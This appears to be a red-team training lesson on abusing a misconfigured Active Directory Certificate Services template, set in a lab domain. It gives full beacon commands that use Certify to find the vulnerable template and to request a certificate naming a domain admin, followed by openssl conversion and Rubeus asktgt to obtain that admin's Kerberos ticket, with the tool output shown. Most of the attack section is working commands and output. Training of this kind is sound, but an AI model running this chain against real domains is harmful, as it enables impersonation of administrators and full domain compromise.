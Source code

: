 AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

Certify can also find vulnerable templates.
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d7e/9d6/306/customuser.png)

  

Let's go through the key parts of this output.

1. This template is served by _sub-ca_.
2. The template is called _CustomUser_.
3. _ENROLLEE_SUPPLIES_SUBJECT_ is enabled, which allows the certificate requestor to provide any SAN (subject alternative name).
4. The certificate usage has _Client Authentication_ set.
5. _DEV\\Domain Users_ have enrollment rights, so any domain user may request a certificate from this template.

  If a principal you control has WriteOwner, WriteDacl or WriteProperty, then this could also be abused.

  

This configuration allows any domain user to request a certificate for any other domain user (including a domain admin) and use it for authentication.  Request a certificate for nlamb.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

[*] Action: Request a Certificates
[*] Current user context    : DEV\bfarmer
[*] No subject name specified, using current context as subject.

[*] Template                : CustomUser
[*] Subject                 : CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io
[*] AltName                 : nlamb

[*] Certificate Authority   : dc-2.dev.cyberbotic.io\sub-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 11

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:05.4521116
```
  

Copy the whole certificate (both the private key and certificate) and save it to `cert.pem` on Ubuntu WSL.  Then use the provided `openssl` command to convert it to pfx format.
```
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password: pass123
Verifying - Enter Export Password: pass123
```
  

Convert `cert.pfx` into a base64 encoded string so it can be used with Rubeus
```
ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0
MIIM7w[...]ECAggA
```
  

Then use `asktgt` to request a TGT for the user using the certificate.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\nlamb'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGQj[...]5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/7/2022 8:51:22 AM
  EndTime                  :  9/7/2022 6:51:22 PM
  RenewTill                :  9/14/2022 8:51:22 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  AliVFc5Nk93Z7IUkweCnBQ==
  ASREP (key)              :  4DB9D9D76701696109C28A26D27DE0B0
```